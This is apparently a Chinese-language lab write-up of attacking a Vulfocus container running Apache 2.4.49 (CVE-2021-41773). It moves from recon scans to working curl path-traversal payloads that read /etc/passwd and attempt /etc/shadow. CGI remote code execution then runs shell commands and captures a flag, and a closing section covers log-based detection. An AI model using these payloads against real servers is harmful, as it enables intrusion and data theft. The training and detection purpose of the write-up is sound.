### （五）第二层靶标二：`apache-cve_2021_41773` 攻击与利用检测

#### 1. 启动靶机环境

在 Vulfocus 平台中，找到 `vulfocus/apache-cve_2021_41773:latest` 镜像，点击 "启动"。

- **访问地址**: `10.37.133.3:42286` (PORT 由 Vulfocus 动态分配)
- **服务类型**: Apache HTTP Server
- **漏洞标识**: CVE-2021-41773



#### 2. 信息收集

##### 2.1 基础端口扫描

```bash
# 扫描 Apache 服务端口
nmap -sV -p 80,443,8080-8090 10.37.133.3
```

**扫描结果**:

```
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ nmap -sV -p 80,443,8080-8090 10.37.133.3

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-25 02:03 EDT
Nmap scan report for kali-linux.host-only--3 (10.37.133.3)
Host is up (0.0000020s latency).

PORT     STATE    SERVICE         VERSION
80/tcp   filtered http
443/tcp  closed   https
8080/tcp closed   http-proxy
8081/tcp closed   blackice-icecap
8082/tcp closed   blackice-alerts
8083/tcp closed   us-srv
8084/tcp closed   websnp
8085/tcp closed   unknown
8086/tcp closed   d-s-n
8087/tcp closed   simplifymedia
8088/tcp closed   radan-http
8089/tcp closed   unknown
8090/tcp closed   opsmessaging

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.43 seconds
```



**扫描结果分析**：

- 常规HTTP端口(80, 443, 8080-8090)均显示为关闭或过滤状态
- Apache服务运行在非标准端口上，通过Vulfocus平台动态分配为**13503端口**
- 需要直接访问指定的映射端口进行后续信息收集

##### 2.2 Web 服务识别

通过浏览器访问 Apache 服务 `http://10.37.133.3:42286`。



##### 2.3 Apache 版本检测

```bash
# 使用 curl 获取服务器信息
curl -I http://10.37.133.3:42286

# 使用 nikto 进行 Web 扫描
nikto -h http://10.37.133.3:42286
```



**curl响应头分析**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ curl -I http://10.37.133.3:42286

HTTP/1.1 200 OK
Date: Sun, 25 May 2025 06:04:51 GMT
Server: Apache/2.4.49 (Debian)
Last-Modified: Sat, 09 Oct 2021 03:58:16 GMT
ETag: "29cd-5cde381698600"
Accept-Ranges: bytes
Content-Length: 10701
Vary: Accept-Encoding
Content-Type: text/html
```

**关键发现**：

- **服务器版本**: `Apache/2.4.49 (Debian)` - **这正是CVE-2021-41773漏洞影响的确切版本**
- **操作系统**: Debian Linux
- **文件修改时间**: 2021-10-09，与CVE披露时间吻合
- **响应正常**: HTTP 200状态码，服务器正常运行

##### 2.4 Nikto 安全扫描

**nikto扫描结果**:


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ nikto -h http://10.37.133.3:42286

- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.37.133.3
+ Target Hostname:    10.37.133.3
+ Target Port:        42286
+ Start Time:         2025-05-25 02:04:56 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.49 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present.
+ /: The X-Content-Type-Options header is not set.
+ Apache/2.4.49 appears to be outdated (current is at least Apache/2.4.54).
+ /: Server may leak inodes via ETags, header found with file /, inode: 29cd, size: 5cde381698600, mtime: gzip.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ 8909 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2025-05-25 02:05:04 (GMT-4) (8 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

**Nikto扫描分析**：

- **版本确认**: 再次确认Apache/2.4.49版本，**明确标注为过时版本**
- **安全配置缺陷**:
  - 缺少 `X-Frame-Options`头(点击劫持防护)
  - 缺少 `X-Content-Type-Options`头(MIME类型嗅探防护)
- **信息泄露**: ETag头可能泄露服务器inode信息
- **HTTP方法**: 支持POST, OPTIONS, HEAD, GET方法
- **重要**: 扫描过程中未触发明显的安全拦截，说明服务器配置相对宽松

##### 2.5 目录结构探测

```bash
# 使用 dirb 进行目录扫描
dirb http://10.37.133.3:42286
```

**dirb扫描结果**:


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ dirb http://10.37.133.3:42286

-----------------
DIRB v2.22  
By The Dark Raver
-----------------

START_TIME: Sun May 25 02:05:11 2025
URL_BASE: http://10.37.133.3:42286/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                    

---- Scanning URL: http://10.37.133.3:42286/ ----
+ http://10.37.133.3:42286/cgi-bin/ (CODE:403|SIZE:279)                                                                                                                                        
+ http://10.37.133.3:42286/index.html (CODE:200|SIZE:10701)                                                                                                                                    
+ http://10.37.133.3:42286/server-status (CODE:403|SIZE:279)                                                                                                                                   
                                                                                                                                                                                               
-----------------
END_TIME: Sun May 25 02:05:12 2025
DOWNLOADED: 4612 - FOUND: 3
```

**目录发现分析**：

- **`/cgi-bin/` (403 Forbidden)**: **关键发现** - 这是CVE-2021-41773漏洞利用的核心路径
  - 403状态表明目录存在但访问被限制
  - CGI目录的存在为路径遍历攻击提供了入口点
- **`/index.html` (200 OK)**: 标准首页文件，大小10701字节
- **`/server-status` (403 Forbidden)**: Apache状态页面，被保护但存在

##### 2.6 信息收集总结

1. **漏洞确认**:

   - Apache版本2.4.49**完全匹配CVE-2021-41773的受影响版本**
   - 服务器配置标准，未发现特殊的安全加固
2. **攻击条件满足**:

   - **版本匹配**: 确认为易受攻击的Apache版本
   - **服务配置**: 标准Apache配置，为路径遍历攻击提供了条件
3. **安全态势评估**:

   - **高风险**: 版本完全匹配已知高危漏洞
   - **配置薄弱**: 缺少多个安全头，信息泄露风险
   - **攻击面**: CGI功能启用，为代码执行提供了可能

#### 3. 漏洞分析与利用

##### 3.1 CVE-2021-41773 漏洞原理

**漏洞基本信息**:

- **CVE编号**: CVE-2021-41773
- **CVSS评分**: 7.5 (高危)
- **漏洞类型**: 路径遍历 (Path Traversal)
- **影响版本**: Apache HTTP Server 2.4.49
- **漏洞原理**: Apache 2.4.49版本在处理URL路径规范化时存在缺陷，攻击者可以通过构造特殊的URL编码绕过路径限制，访问Web根目录之外的文件

**技术细节**:

- **根本原因**: Apache对URL中的路径分隔符和点号序列的处理不当
- **绕过机制**: 使用URL编码的点号(`%2e`)可以绕过路径规范化检查
- **攻击路径**: 通过Alias映射的目录(如 `/cgi-bin/`, `/icons/`)进行路径遍历

##### 3.2 路径遍历攻击实践

###### 3.2.1 基础路径遍历测试

```bash
# 尝试通过CGI路径读取 /etc/passwd 文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试读取 Apache 配置文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/apache2/apache2.conf"

# 尝试读取其他敏感文件
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow"
curl "http://10.37.133.3:42286/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/proc/version"
```

**执行结果分析**:
所有通过 `/cgi-bin/`路径的攻击尝试都返回了 `500 Internal Server Error`，这表明：

1. **CGI配置问题**: CGI模块可能没有正确配置或缺少必要的CGI脚本
2. **路径解析问题**: Apache可能对CGI路径下的路径遍历有特殊处理
3. **权限限制**: 可能存在额外的访问控制机制

###### 3.2.2 非CGI路径的直接遍历攻击

CVE-2021-41773不仅限于CGI路径，我们尝试其他映射路径：

```bash
# 尝试通过icons路径进行遍历
curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 尝试通过manual路径进行遍历  
curl "http://10.37.133.3:42286/manual/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

# 直接根路径尝试
curl "http://10.37.133.3:42286/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

**执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ curl "http://10.37.133.3:42286/icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

**攻击结果分析**:

1. ✅ **`/icons/` 路径攻击成功**

   - **状态**: 🎉 完全成功 - 读取到完整的 `/etc/passwd` 文件
   - **编码方式**: 仅使用基础的单层URL编码 `%2e%2e`（不需要双重编码）
   - **技术意义**: 证明CVE-2021-41773不仅限于CGI路径，还影响Apache的静态资源映射
2. 🚫 **`/manual/` 路径被阻止**

   - **状态**: 403 Forbidden
   - **原因**: Manual文档路径可能有特殊的访问控制配置
   - **安全策略**: 表明某些路径映射有额外的安全限制
3. 🚫 **直接根路径被阻止**

   - **状态**: 403 Forbidden
   - **原因**: 根路径的路径遍历被Apache的基础安全机制阻止

##### 3.3 远程代码执行(RCE)攻击

###### 3.3.1 CGI路径的RCE攻击尝试

```bash
# 通过CGI路径执行shell命令
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```

**RCE攻击结果**:

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**🎉 RCE攻击成功！**

- **权限获取**: 成功以 `www-data`用户身份执行命令
- **攻击方式**: 通过CGI路径结合路径遍历，直接调用系统shell
- **编码技术**: 使用混合编码 `.%2e`绕过路径限制

###### 3.3.2 系统信息收集

```bash
# 获取系统信息
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; uname -a"

# 查看当前目录
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; pwd"

# 列出根目录内容
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; ls -la /"
```

##### 3.4 Flag文件搜索与获取

###### 3.4.1 系统文件搜索

```bash
# 搜索系统中所有包含flag的文件
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; find / -name '*flag*' 2>/dev/null"
```

**搜索结果**:

```bash
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.3/tty/ttyS3/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.1/tty/ttyS1/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.2/tty/ttyS2/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.0/tty/ttyS0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/ss_flags.ph
/usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/waitflags.ph
```

**🎯 找到了！flag文件在 `/tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}`**

###### 3.4.2 Flag内容读取

```bash
# 读取flag文件内容
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; cat /tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}"
```

**Flag获取成功**: `flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}`

#### 4. 威胁检测

##### 4.1 Apache 访问日志分析

###### 4.1.1 定位容器和日志路径

```bash
# 查看运行中的 Apache 容器
docker ps | grep apache
```

```bash
┌──(kali㉿kali-attacker)-[~]
└─$ docker ps | grep apache

a2b4c3a1d377   vulfocus/apache-cve_2021_41773:latest      "/entry.sh"              22 minutes ago   Up 20 seconds           0.0.0.0:42286->80/tcp, :::42286->80/tcp                                                flamboyant_maxwell
```

```bash

# 进入容器查看日志
docker exec -it a2b4c3a1d377 /bin/bash

# Apache 访问日志通常位于以下路径
ls -la /var/log/apache2/
# 重点关注 access.log 和 error.log
```



###### 4.1.2 访问日志分析

```bash
# 查看最近的访问日志
tail -f /var/log/apache2/access.log

# 搜索路径遍历攻击特征
grep -i "%2e%2e\|\.\./" /var/log/apache2/access.log

# 搜索CGI相关的可疑请求
grep -i "cgi-bin" /var/log/apache2/access.log

# 搜索icons路径的异常访问
grep -i "icons.*%2e" /var/log/apache2/access.log
```



1. 路径遍历攻击记录

**通过 `/icons/`路径的攻击**：

```bash
10.37.133.2 - - [25/May/2025:07:39:25 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1" 200 1126 "-" "curl/8.7.1"
```

* **攻击特征**: 使用 `%2e%2e`（URL编码的 `..`）进行路径遍历
* **目标文件**: `/etc/passwd`系统用户文件
* **状态码**: `200` - **攻击成功**，返回了1126字节的文件内容
* **攻击工具**: `curl/8.7.1`

2. Flag文件搜索尝试

攻击者系统性地搜索flag文件的常见位置：

```bash
10.37.133.2 - - [25/May/2025:07:39:30 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:34 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/tmp/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:39 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/var/www/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:48 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:39:56 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/var/www/html/flag HTTP/1.1" 404 437 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:40:00 +0000] "GET /icons/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt HTTP/1.1" 404 437 "-" "curl/8.7.1"
```

**攻击模式分析**：

- **系统性搜索**: 攻击者按顺序尝试了多个可能的flag位置
- **状态码**: 全部返回 `404 Not Found`，说明这些位置没有flag文件
- **时间间隔**: 每次尝试间隔4-8秒，显示为手动或脚本化攻击

3. 远程代码执行(RCE)攻击

**通过CGI路径执行命令**：

```bash
10.37.133.2 - - [25/May/2025:07:40:16 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1" 200 188 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:40:21 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1" 200 887 "-" "curl/8.7.1"
10.37.133.2 - - [25/May/2025:07:40:26 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1" 200 133 "-" "curl/8.7.1"
```

**RCE攻击特征**：

- **攻击路径**: `/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh`
- **编码技术**: 混合使用 `.%2e`绕过路径限制
- **HTTP方法**: `POST` - 用于发送命令执行的payload
- **状态码**: `200` - **RCE攻击成功**
- **响应大小变化**: 从133字节到887字节，说明执行了不同的命令

4.1.3 错误日志分析

```bash
# 查看Apache错误日志
tail -f /var/log/apache2/error.log

# 搜索与路径遍历相关的错误
grep -i "path\|directory\|forbidden" /var/log/apache2/error.log

# 搜索CGI执行相关的错误
grep -i "cgi\|script" /var/log/apache2/error.log
```



Apache错误日志分析:

1. 路径遍历检测与阻止

**无效URI路径错误**：

```bash
[Sun May 25 07:39:43.793225 2025] [core:error] [pid 20:tid 281472604833344] [client 10.37.133.2:58584] AH10244: invalid URI path (/icons/../../../../index.html)
[Sun May 25 07:39:43.795361 2025] [core:error] [pid 20:tid 281472604833344] [client 10.37.133.2:58584] AH10244: invalid URI path (/icons/../../../../index.cgi)
[Sun May 25 07:39:43.795451 2025] [core:error] [pid 20:tid 281472604833344] [client 10.37.133.2:58584] AH10244: invalid URI path (/icons/../../../../index.pl)
[Sun May 25 07:39:43.795499 2025] [core:error] [pid 20:tid 281472604833344] [client 10.37.133.2:58584] AH10244: invalid URI path (/icons/../../../../index.php)
